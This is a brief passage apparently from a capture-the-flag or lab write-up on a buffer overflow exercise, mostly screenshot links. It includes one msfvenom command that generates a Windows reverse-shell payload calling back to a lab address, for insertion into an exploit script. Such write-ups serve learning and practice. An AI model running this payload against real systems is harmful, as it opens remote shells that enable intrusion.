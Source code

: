 ![jpmesp](assets/markdown-img-paste-20210904083936451.png)

Pick one with all false.

![lendian](assets/markdown-img-paste-20210904084024607.png)

`msfvenom -p windows/shell_reverse_tcp LHOST=10.8.210.115 LPORT=443 EXITFUNC=thread -f c -a x86 -b "\x00\x07\x2e\xa0"`

Generating payload and add it to exploit script.

![admin](assets/markdown-img-paste-20210904084319343.png)
